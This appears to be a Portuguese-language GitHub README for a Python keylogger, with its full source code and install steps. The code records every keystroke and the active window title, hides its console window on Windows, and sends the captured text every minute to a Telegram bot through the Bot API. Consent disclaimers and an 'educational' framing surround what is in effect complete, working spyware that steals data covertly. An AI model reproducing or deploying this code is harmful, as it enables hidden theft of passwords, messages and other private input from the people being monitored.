


# keylogger_telegram
# Keylogger Telegram — Monitoramento de Teclas em Python

Projeto em Python para estudos de captura de eventos de teclado, identificação da janela ativa, tratamento de teclas especiais e caracteres acentuados em teclados ABNT, gravação de registros locais e integração com a API do Telegram.

```bash
# keylogger_telegram.py — uso exclusivo em dispositivo próprio ou com consentimento
from pynput import keyboard
import threading
import time
import requests
import sys
from datetime import datetime
import pygetwindow as gw

# ================== CONFIGURAÇÃO ==================
LOG_FILE = "keys.log"
BUFFER = []
FLUSH_INTERVAL = 60

TELEGRAM_TOKEN = "123456789:AAExxxxxxxxxxxxxxxxxxxxxxxxxxxxx"  # token do BotFather
TELEGRAM_CHAT_ID = "123456789"                                  # seu chat_id
TELEGRAM_API = f"https://api.telegram.org/bot{TELEGRAM_TOKEN}/sendMessage"
SEND_TO_TELEGRAM = True
# ==================================================

# Estado global
janela_atual = ""
primeiro_evento = True
acento_pendente = ""

# Tabela de combinação de dead keys (teclado ABNT)
DEAD_KEYS = {
    "´": {"a": "á", "e": "é", "i": "í", "o": "ó", "u": "ú",
          "A": "Á", "E": "É", "I": "Í", "O": "Ó", "U": "Ú",
          "c": "ç", "C": "Ç"},
    "`": {"a": "à", "e": "è", "i": "ì", "o": "ò", "u": "ù",
          "A": "À", "E": "È", "I": "Ì", "O": "Ò", "U": "Ù"},
    "^": {"a": "â", "e": "ê", "o": "ô",
          "A": "Â", "E": "Ê", "O": "Ô"},
    "~": {"a": "ã", "o": "õ", "A": "Ã", "O": "Õ"},
    "¨": {"u": "ü", "U": "Ü"},
}


def obter_janela_ativa() -> str:
    """Retorna o título da janela em foco, ou vazio se indisponível."""
    try:
        janela = gw.getActiveWindow()
        return janela.title if janela else ""
    except Exception:
        return ""


def janela_mudou(nova: str) -> bool:
    return nova != "" and nova != janela_atual


def enviar_telegram(conteudo: str):
    try:
        requests.post(
            TELEGRAM_API,
            json={
                "chat_id": TELEGRAM_CHAT_ID,
                "text": f"⌨️ Log {datetime.now():%d/%m %H:%M}\n{conteudo}",
            },
            timeout=10,
        )
    except Exception:
        pass  # falha de rede não interrompe a captura


def flush_worker():
    """Thread em segundo plano: grava localmente e envia ao Telegram."""
    while True:
        time.sleep(FLUSH_INTERVAL)
        if BUFFER:
            conteudo = "".join(BUFFER)
            BUFFER.clear()
            with open(LOG_FILE, "a", encoding="utf-8") as f:
                f.write(conteudo)
            if SEND_TO_TELEGRAM:
                enviar_telegram(conteudo)


def on_press(key):
    global janela_atual, primeiro_evento, acento_pendente

    nova = obter_janela_ativa()
    if janela_mudou(nova):
        BUFFER.append(f"\n[{datetime.now():%d/%m %H:%M:%S}][{nova}] ")
        janela_atual = nova
        primeiro_evento = False

    try:
        tecla = key.char
    except AttributeError:
        tecla = None

    if key == keyboard.Key.esc:
        return False

    # ---- Dead keys (´ ` ^ ~ ¨) do teclado ABNT ----
    # Normaliza variações de codepoint que o Windows entrega para o agudo
    NORMALIZACAO_DEAD_KEY = {
        "´": "´",           # U+00B4 acute
        "'": "´",           # U+0027 apóstrofo ASCII
        "\u0301": "´",      # U+0301 combining acute
        "^": "^",           # U+005E
        "\u0302": "^",      # U+0302 combining circumflex
        "~": "~",           # U+007E
        "\u0303": "~",      # U+0303 combining tilde
        "¨": "¨",           # U+00A8
        "\u0308": "¨",      # U+0308 combining diaeresis
        "`": "`",           # U+0060 grave
    }

    if tecla in NORMALIZACAO_DEAD_KEY:
        acento_pendente = NORMALIZACAO_DEAD_KEY[tecla]
        return True

    if acento_pendente:
        if tecla and len(tecla) == 1:
            combinado = DEAD_KEYS[acento_pendente].get(tecla, acento_pendente + tecla)
            BUFFER.append(combinado)
        else:
            # acento seguido de tecla especial (ex.: ´ + ENTER)
            BUFFER.append(acento_pendente)
            if tecla:
                BUFFER.append(tecla)
            else:
                nome = (key.name if hasattr(key, "name") else str(key)).upper()
                BUFFER.append(f"[{nome}]")
        acento_pendente = ""
        return True

    # ---- Teclas especiais e normais ----
    if key == keyboard.Key.enter:
        BUFFER.append(f"[ENTER]  ({datetime.now():%d/%m %H:%M:%S})\n")
    elif key == keyboard.Key.space:
        BUFFER.append(" ")
    elif key == keyboard.Key.backspace:
        BUFFER.append("[BS]")
    elif key in (keyboard.Key.shift, keyboard.Key.shift_r):
        pass  # o caractere já vem em maiúscula quando aplicável
    elif key == keyboard.Key.tab:
        BUFFER.append("[TAB]")
    elif tecla:
        BUFFER.append(tecla)
    else:
        nome = (key.name if hasattr(key, "name") else str(key)).upper()
        BUFFER.append(f"[{nome}]")

    return True


def ocultar_terminal():
    if sys.platform == "win32":
        import ctypes
        ctypes.windll.user32.ShowWindow(
            ctypes.windll.kernel32.GetConsoleWindow(), 0
        )


def main():
    global janela_atual
    ocultar_terminal()
    janela_atual = obter_janela_ativa() # ← corrigir para obter_janela_ativa
    threading.Thread(target=flush_worker, daemon=True).start()
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()


if __name__ == "__main__":
    main()
```

> **Aviso de segurança:** utilize este projeto somente em dispositivos próprios ou em ambientes nos quais você tenha autorização explícita dos usuários. A captura de teclas pode registrar senhas, mensagens e outras informações confidenciais. Não utilize o programa para monitoramento oculto ou coleta não autorizada de dados.

## 📌 Funcionalidades

- **Captura de teclado:** utiliza a biblioteca `pynput` para detectar eventos de pressionamento de teclas.
- **Identificação da janela ativa:** registra o título da janela em foco com `pygetwindow`.
- **Tratamento de caracteres especiais:** inclui suporte a combinações de acentos comuns em teclados ABNT.
- **Registro local:** armazena os dados no arquivo `keys.log`.
- **Envio ao Telegram:** integra-se à API de bots do Telegram para envio periódico de registros.
- **Processamento em segundo plano:** utiliza `threading` para executar a rotina de gravação e envio.
- **Intervalo configurável:** permite definir o intervalo entre as operações de gravação e envio.
- **Encerramento por tecla:** utiliza a tecla `ESC` como mecanismo de parada do listener.

## 🛠️ Tecnologias utilizadas

| Tecnologia | Finalidade |
|---|---|
| Python 3 | Linguagem de programação |
| `pynput` | Captura de eventos de teclado |
| `threading` | Execução de tarefas em segundo plano |
| `requests` | Comunicação HTTP com a API do Telegram |
| `pygetwindow` | Identificação da janela ativa no Windows |
| `datetime` | Registro de data e hora |
| `sys` | Verificação da plataforma de execução |
| `time` | Controle do intervalo de processamento |

## 📂 Estrutura do projeto

```text
keylogger-telegram/
├── keylogger_telegram.py
├── keys.log              # Gerado durante a execução
├── .gitignore
├── requirements.txt
└── README.md
```

> O arquivo `keys.log` é criado durante a execução quando existem dados pendentes para gravação.

O arquivo `keys.log` gerado:





## ⚙️ Requisitos

- Python instalado no computador.
- Conexão com a internet para a integração com o Telegram.
- Sistema operacional compatível com as bibliotecas utilizadas.
- Permissões necessárias para a captura de teclado no ambiente autorizado.

A função de identificação da janela ativa utiliza `pygetwindow`, com foco em ambientes Windows.

## 📦 Instalação

### 1. Clone o repositório

```bash
git clone https://github.com/wandreson-silva/keylogger_telegram.git
```

Entre na pasta do projeto:

```bash
cd keylogger_telegram
```

### 2. Crie um ambiente virtual

No Windows:

```bash
python -m venv .venv
```

Ative o ambiente:

```powershell
.venv\Scripts\Activate.ps1
```

Se estiver usando o Prompt de Comando (CMD):

```bat
.venv\Scripts\activate.bat
```

### 3. Instale as dependências

Crie um arquivo `requirements.txt` com o seguinte conteúdo:

```text
pynput
requests
pygetwindow
```

Instale os pacotes:

```bash
python -m pip install -r requirements.txt
```

## 🔐 Configuração segura do Telegram

Para projetos autorizados, a integração pode utilizar um bot do Telegram para enviar notificações ou registros de teste.

1. Crie ou configure um bot usando o [BotFather](https://t.me/BotFather).
2. Obtenha o identificador do chat autorizado.
3. Armazene o token e o identificador em variáveis de ambiente, em vez de deixá-los diretamente no código.
4. Não compartilhe tokens, logs ou outras credenciais no GitHub.

Exemplo de configuração de variáveis no PowerShell:

```powershell
$env:TELEGRAM_BOT_TOKEN = "SEU_NOVO_TOKEN"
$env:TELEGRAM_CHAT_ID = "SEU_CHAT_ID"
```

No Python, os valores podem ser lidos com `os.environ`.

**Importante:** variáveis de ambiente definidas dessa forma ficam disponíveis apenas no contexto correspondente do terminal e dos processos iniciados por ele.

## ▶️ Execução

Com o ambiente virtual ativado e as dependências instaladas:

```bash
python keylogger_telegram.py
```

A execução depende das permissões do sistema e da configuração das bibliotecas. Teste inicialmente em um ambiente controlado, utilizando dados fictícios e sem registrar informações confidenciais.

## 🧠 Funcionamento do código

### 1. Captura de eventos

O listener de teclado detecta pressionamentos e classifica caracteres comuns e teclas especiais.

### 2. Identificação da janela

A função `obter_janela_ativa()` tenta recuperar o título da janela em foco. O título é utilizado para contextualizar os eventos registrados.

### 3. Tratamento de acentos

A tabela `DEAD_KEYS` associa determinados acentos a caracteres, como `á`, `ê`, `õ` e `ü`.

O resultado pode variar conforme o layout do teclado, o sistema operacional e a forma como os eventos são entregues pela biblioteca.

### 4. Buffer e gravação

Os eventos são acumulados em memória e processados pela rotina `flush_worker()`, conforme o intervalo configurado em `FLUSH_INTERVAL`.

### 5. Integração com o Telegram

A função `enviar_telegram()` realiza uma requisição HTTP para a API do Telegram. A variável `SEND_TO_TELEGRAM` controla se essa integração está habilitada.

Bot Telegram:


## ⚠️ Limitações e observações técnicas

- O código apresentado foi desenvolvido com foco em uso experimental e requer testes antes de qualquer utilização.
- A identificação da janela ativa pode falhar ou retornar um título vazio.
- A captura de acentos depende do layout do teclado e da implementação do sistema operacional.
- A rotina de buffer utiliza uma lista compartilhada entre threads, sem sincronização explícita.
- Falhas na requisição HTTP são ignoradas, e a implementação não verifica o código de resposta do Telegram.
- O envio de mensagens pode falhar se o conteúdo ultrapassar os limites da API ou se houver restrições de rede.
- O arquivo de log pode conter dados sensíveis e deve receber proteção adequada.
- Ocultar o terminal não é um mecanismo de segurança e pode prejudicar a transparência do programa.
- O comportamento de encerramento e a gravação dos últimos eventos devem ser testados, pois o buffer pode conter dados ainda não processados.

## 🛡️ Boas práticas de segurança

- Utilize somente em dispositivos próprios ou com autorização explícita.
- Não capture senhas, códigos de autenticação, dados bancários ou mensagens privadas.
- Evite execução automática ou oculta.
- Proteja os arquivos de log e defina uma política de retenção.
- Mantenha tokens fora do código-fonte e do histórico do Git.
- Utilize `.gitignore` para impedir a publicação acidental de registros e arquivos de configuração.
- Informe claramente aos usuários quando a coleta de eventos estiver ativa.

Exemplo de `.gitignore`:

```gitignore
# Registros locais
keys.log
*.log

# Credenciais e configurações privadas
.env

# Ambientes virtuais
.venv/
venv/

# Cache Python
__pycache__/
*.py[cod]
```

## 📚 Objetivos educacionais

Este projeto pode ser utilizado para estudar:

- Programação em Python.
- Eventos de teclado e tratamento de exceções.
- Concorrência com threads.
- Manipulação de arquivos.
- Integração com APIs HTTP.
- Tratamento de caracteres Unicode.
- Gerenciamento seguro de credenciais.
- Ética e privacidade na programação.


## 👨‍💻 Autor

**Wandreson Silva**

---

**Projeto educacional:** destinado ao aprendizado de Python e à experimentação em ambientes autorizados, com respeito à privacidade e à legislação aplicável.

